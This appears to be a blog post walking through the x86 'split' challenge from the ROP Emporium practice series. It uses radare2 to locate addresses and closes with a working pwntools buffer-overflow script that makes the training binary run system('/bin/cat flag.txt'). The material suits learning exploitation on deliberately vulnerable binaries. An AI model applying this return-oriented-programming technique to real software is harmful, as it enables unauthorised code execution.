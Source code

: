 ```yaml
---
layout: post
title:  "ROP Emporium split Writeup (x86)"
date:   2024-06-01 13:15:45 -0400
categories: rop-emporium split
tags: rop-emporium split x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[second challenge](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `system` with the argument `/bin/cat flag.txt`.
This string is also present in the binary!

### x86 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x86`, we pass each argument onto the stack. This is
easy since we already control the stack! There are other
[`x86` calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions){:target="_blank"}{:rel="noopener noreferrer"}
but passing arguments is all we need to know for
our purposes

## Exploit Crafting
The offset for `x86` challenges will be `44 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> Is there an address where `system()` is called?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/split/x86-addr.png)

Let's investigate `usefulFunction`. We can view
the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful-asm](/images/split/x86-useful-asm.png)

This function seems to `call` the `system()` function
with the argument `/bin/ls`. We want to change the
argument but let's take note of the `call` address
`0x0804861a`

### String Address
> The string `/bin/cat flag.txt` exists in the binary
{: .prompt-tip }
Using `radare2` again we can search for case insensitive
strings with the `/i` command. So to find the address
of `/bin/cat flag.txt` we run

```
/i /bin/cat flag.txt
```
![cat-addr](/images/split/x86-cat-addr.png)

Awesome the address of the string is `0x0804a030`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
str_addr = 0x0804a030
sys_addr = 0x0804861a

# create payload
payload = b'A' * 44
# call sys
payload += p32(sys_addr)
# set arg1
payload += p32(str_addr)

# send payload + receive flag
io = process('./split32')
io.recv()
io.sendline(payload)
print(io.recvline())
success(io.recvline())
```
![flag](/images/split/x86-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.


[Previous Challenge (ret2win)]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[split x64]({% post_url 2024-06-01-rop-emporium-split-x64%}){:target="_blank"}{:rel="noopener noreferrer"}
